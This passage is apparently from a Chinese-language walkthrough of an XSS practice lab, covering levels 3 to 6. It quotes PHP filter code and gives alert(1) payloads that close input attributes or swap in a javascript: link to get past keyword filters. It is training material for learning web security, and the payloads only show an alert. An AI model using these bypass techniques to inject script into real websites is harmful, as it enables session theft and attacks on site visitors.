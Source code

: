 构造 input 的 XSS,例如: `<input value=xss onfocus=alert(1) autofocus>`

payload: `test'onmouseover='alert(1)'`
payload: `test'onfocus='alert(1)' autofocus '`

---

# level 4

```php
$str = $_GET["keyword"];
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
```

发现过滤了 `<`、`>`,使用 `"` 可以闭合

测试一下 `test"123`

![images](../../../../../assets/img/安全/实验/Web/靶场/XSS/3.png)

构造 input 的 XSS,例如: `<input value=xss onfocus=alert(1) autofocus>`

payload: `test"onfocus=alert(1) autofocus "`

---

# level 5

```php
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
```

这一关主要过滤了 `<script` 和 `on`

使用 `">` 闭合,然后使用一个不被过滤的payload `<a href=javascript:alert(19)>M`

payload: `"><a href=javascript:alert(19)>M`

---

# level 6

```php
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
```
